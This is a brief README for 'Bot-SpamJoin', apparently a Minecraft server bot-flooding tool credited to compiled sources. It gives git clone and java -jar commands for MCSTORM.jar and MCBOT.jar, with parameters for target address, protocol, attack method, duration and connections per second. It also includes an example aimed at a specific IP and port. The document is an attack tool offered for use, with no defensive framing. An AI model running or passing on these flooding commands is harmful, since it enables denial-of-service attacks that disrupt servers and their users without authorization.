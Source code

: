 # Bot-SpamJoin

## Cre: Nguon Tong Hop
* git clone https://github.com/truongthienbt/Bot-SpamJoin.git
* cd Bot-SpamJoin
* java -jar .\MCSTORM.jar [ip+port] [protocols] [methods] [time] [CPS]
* or 
* java -jar .\MCBOT.jar [ip+port] [protocols] [methods] [time] [CPS]
* 
* EXAMPLE: java -jar .\MCSTORM.jar 51.222.105.212:41649 47 join 60 -1

